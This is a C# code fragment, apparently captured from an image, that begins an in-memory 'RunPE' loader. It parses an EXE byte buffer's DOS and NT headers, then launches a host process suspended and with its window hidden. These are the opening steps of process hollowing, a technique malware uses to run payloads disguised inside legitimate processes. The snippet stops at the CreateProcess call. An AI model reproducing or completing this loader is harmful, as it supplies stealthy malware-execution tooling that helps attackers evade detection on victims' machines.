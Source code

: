 ```
 
    /// <summary>
    /// Runs an EXE (which is loaded in a byte array) in memory.
    /// </summary>
    /// <param name="exeBuffer">The EXE buffer.</param>
    /// <param name="hostProcess">Full path of the host process to run the buffer in.</param>
    /// <param name="optionalArguments">Optional command line arguments.</param>
    /// <returns></returns>
    public static bool Run(byte[] exeBuffer, string hostProcess, string optionalArguments = "")
    {
        // STARTUPINFO
        STARTUPINFO StartupInfo = new STARTUPINFO();
        StartupInfo.dwFlags = STARTF_USESHOWWINDOW;
        StartupInfo.wShowWindow = SW_HIDE;
 
        var IMAGE_SECTION_HEADER = new byte[0x28]; // pish
        var IMAGE_NT_HEADERS = new byte[0xf8]; // pinh
        var IMAGE_DOS_HEADER = new byte[0x40]; // pidh
        var PROCESS_INFO = new int[0x4]; // pi
        var CONTEXT = new byte[0x2cc]; // ctx
 
        byte* pish;
        fixed (byte* p = &IMAGE_SECTION_HEADER[0])
            pish = p;
 
        byte* pinh;
        fixed (byte* p = &IMAGE_NT_HEADERS[0])
            pinh = p;
 
        byte* pidh;
        fixed (byte* p = &IMAGE_DOS_HEADER[0])
            pidh = p;
 
        byte* ctx;
        fixed (byte* p = &CONTEXT[0])
            ctx = p;
 
        // Set the flag.
        *(uint*)(ctx + 0x0 /* ContextFlags */) = CONTEXT_FULL;
 
        // Get the DOS header of the EXE.
        Buffer.BlockCopy(exeBuffer, 0, IMAGE_DOS_HEADER, 0, IMAGE_DOS_HEADER.Length);
 
        /* Sanity check:  See if we have MZ header. */
        if (*(ushort*)(pidh + 0x0 /* e_magic */) != IMAGE_DOS_SIGNATURE)
            return false;
 
        var e_lfanew = *(int*)(pidh + 0x3c);
 
        // Get the NT header of the EXE.
        Buffer.BlockCopy(exeBuffer, e_lfanew, IMAGE_NT_HEADERS, 0, IMAGE_NT_HEADERS.Length);
 
        /* Sanity check: See if we have PE00 header. */
        if (*(uint*)(pinh + 0x0 /* Signature */) != IMAGE_NT_SIGNATURE)
            return false;
 
        // Run with parameters if necessary.
        if (!string.IsNullOrEmpty(optionalArguments))
            hostProcess += " " + optionalArguments;
 
        if (!CreateProcess(null, hostProcess, IntPtr.Zero, IntPtr.Zero, false, CREATE_SUSPENDED, IntPtr.Zero, null, ref StartupInfo, PROCESS_INFO))
            return false;
```